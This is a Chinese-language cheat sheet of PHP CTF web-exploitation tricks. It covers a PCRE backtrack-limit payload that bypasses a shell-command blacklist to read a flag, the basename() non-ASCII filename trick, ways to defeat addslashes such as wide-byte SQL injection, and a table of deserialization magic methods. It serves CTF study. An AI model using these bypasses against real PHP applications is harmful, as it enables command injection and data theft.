 ###  [PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html) 

```php
#[FBCTF2019]RCEService
#正则回溯最大只有1000000，如果回溯次数超过就会返回flase，构造1000000个a，使回溯超过限制就会绕过正则匹配
elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
payload:
    #本题的要求是json格式
    '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'
```

### basename()

例题：[Zer0pts2020]Can you guess it?

1. 从 https://bugs.php.net/bug.php?id=62119 找到了`basename()`函数的一个问题，它会去掉文件名开头的非ASCII值： 

```php
var_dump(basename("xffconfig.php")); // => config.php
var_dump(basename("config.php/xff")); // => config.php
```

2. [`basename`](https://www.php.net/manual/zh/function.basename)可以返回路径中的文件名部分  如果传入`/index.php/config.php/`，则`$_SERVER['PHP_SELF']`返回`/index.php/config.php/`，`basename($_SERVER['PHP_SELF'])`返回`config.php` 

### 绕过addslashes的方式

设置数据库字符为gbk导致宽字节注入
使用icon,mb_convert_encoding转换字符编码函数导致宽字节注入
url解码导致绕过addslashes
base64解码导致绕过addslashes
json编码导致绕过addslashes
没有使用引号保护字符串，直接无视addslashes
使用了stripslashes(去掉了\)
字符替换导致的绕过addslashes
参考
https://bbs.ichunqiu.com/thread-10899-1-1.html

### 反序列化魔术方法

```php
__construct()              在创建对象时自动调用
__destruct()               在销毁对象时自动调用
__call()                   在对象中调用一个不可访问方法时，call() 会被调用
__callStatic()             在静态上下文中调用一个不可访问方法时调用
__get()                    读取不可访问属性的值时会被调用
__set()                    在给不可访问属性赋值时会被调用
__isset()                  当对不可访问属性调用isset() 或empty()时会被调用
__unset()                  当对不可访问属性调用unset() 时会被调用
__sleep()                  serialize()函数会检查类中是否存在一个魔术方法__sleep()，如果存在，该方法会先被调用，然后才执行序列化操作
__wakeup()                 unserialize()函数会检查是否存在一个__wakeup() 方法，如果存在，则会先调用__wakeup方法，预先准备对象需要的资源。
__toString( )              toString()方法用于一个类被当成字符串时应怎样回应。
__invoke()                 当尝试以调用函数的方式调用一个对象时会被自动调用
__set_state()              自PHP 5.1.0起当调用var_export()导出类时，此静态方法会被调用。
__clone()                  当复制完成时，如果定义了__clone() 方法，则新创建的对象(复制生成的对象)中的__clone()方法会被调用，可用于修改属性的值(如果有必要的话)。

```
